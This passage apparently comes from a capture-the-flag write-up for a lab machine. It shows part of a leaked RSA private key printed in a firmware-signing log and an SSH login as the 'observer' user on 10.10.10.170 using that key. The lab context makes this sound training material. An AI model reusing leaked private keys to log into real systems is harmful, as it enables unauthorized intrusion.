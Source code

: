     JloRxnCYYv+eO94sNJWAxAYrcPKP6nhFc2ReZEyrPxTezbbUlpAHf+gVJNVdetMt      
    ioLhQPUNCb3mpaoP0mUtTmpmkcLbi3W25xXfgTiX8e6ZWUmw+6t2uknttjti97dP
    QFwjZX6QPZu4ToNJczathY2+hREdxR5hR6WrJpsCgYEApmNIz0ZoiIepbHchGv8T 
    pp3Lpv9DuwDoBKSfo6HoBEOeiQ7ta0a8AKVXceTCOMfJ3Qr475PgH828QAtPiQj4
    hvFPPCKJPqkj10TBw/a/vXUAjtlI+7ja/K8GmQblW+P/8UeSUVBLeBYoSeiJIkRf  
    PYsAH4NqEkV2OM1TmS3kLI8CgYBne7AD+0gKMOlG2Re1f88LCPg8oT0MrJDjxlDI
    NoNv4YTaPtI21i9WKbLHyVYchnAtmS4FGqp1S6zcVM+jjb+OpBPWHgTnNIOg+Hpt         
    uaYs8AeupNl31LD7oMVLPDrxSLi/N5o1I4rOTfKKfGa31vD1DoCoIQ/brsGQyI6M     
    zxQNDwKBgQCBOLY8aLyv/Hi0l1Ve8Fur5bLQ4BwimY3TsJTFFwU4IDFQY78AczkK 
    /1i6dn3iKSmL75aVKgQ5pJHkPYiTWTRq2a/y8g/leCrvPDM19KB5Zr0Z1tCw5XCz
    iZHQGq04r9PMTAFTmaQfMzDy1Hfo8kZ/2y5+2+lC7wIlFMyYze8n8g==                 
    -----END RSA PRIVATE KEY-----  
    [2020-01-24 07:10:31.716263] $SYS/internal/firmware/signing 0 Verifying signing..
    [2020-01-24 07:10:32.717745] $SYS/internal/firmware/signing 0 Sent logs to apache server.



The script is getting a private SSH key ostensibly to get to AWS. I can
exploit this further to leak the root flag, which I'll show in [Beyond
Root](#observer-roottxt-leak).

### SSH

That key works for SSH auth as observer:



    root@kali# ssh -i ~/id_rsa_player2_observer observer@10.10.10.170
    The authenticity of host '10.10.10.170 (10.10.10.170)' can't be established.
    ECDSA key fingerprint is SHA256:qViniZV2YfFht35q9ia5soHJyZCxtMjJoydi4tSHZJ0.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.170' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.2.5-050205-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

      System information as of Fri Jan 24 11:43:16 UTC 2020

      System load:  0.0                Processes:            175
      Usage of /:   26.1% of 19.56GB   Users logged in:      0
      Memory usage: 26%                IP address for ens33: 10.10.10.170
      Swap usage:   0%


     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch

    121 packages can be updated.
    5 updates are security updates.


    Last login: Sun Dec  1 15:33:19 2019 from 172.16.118.129
    observer@player2:~$

